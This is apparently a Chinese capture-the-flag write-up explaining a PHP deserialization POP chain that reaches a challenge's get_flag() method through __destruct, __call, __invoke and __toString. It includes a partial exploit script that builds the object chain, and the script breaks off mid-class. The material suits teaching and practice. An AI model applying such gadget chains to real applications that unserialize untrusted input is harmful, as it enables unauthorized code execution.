 1.  `string1`中的`__tostring`存在`$this->str1->get_flag()`，分析一下要自动调用`__tostring()`需要把类`string1`当成字符串来使用，因为调用的是参数`str1`的方法，所以需要把`str1`赋值为类`GetFlag`的对象。
2.  发现类`func`中存在`__invoke`方法执行了字符串拼接，需要把`func`当成函数使用自动调用`__invoke`然后把`$mod1`赋值为`string1`的对象与`$mod2`拼接。
3.  在`funct`中找到了函数调用，需要把`mod1`赋值为`func`类的对象，又因为函数调用在`__call`方法中，且参数为`$test2`,即无法调用`test2`方法时自动调用 `__call`方法；
4.  在`Call`中的`test1`方法中存在`$this->mod1->test2();`，需要把`$mod1`赋值为`funct`的对象，让`__call`自动调用。
5.  查找`test1`方法的调用点，在`start_gg`中发现`$this->mod1->test1();`，把`$mod1`赋值为`start_gg`类的对象，等待`__destruct()`自动调用。

exp：

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new Call();//把$mod1赋值为Call类对象
        }
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new funct();//把 $mod1赋值为funct类对象
        }
        public function test1()
        {
                $this->mod1->test2();
        }
}

class funct
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new func();//把 $mod1赋值为func类对象

        }
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new string1();//把 $mod1赋值为string1类对象

        }
```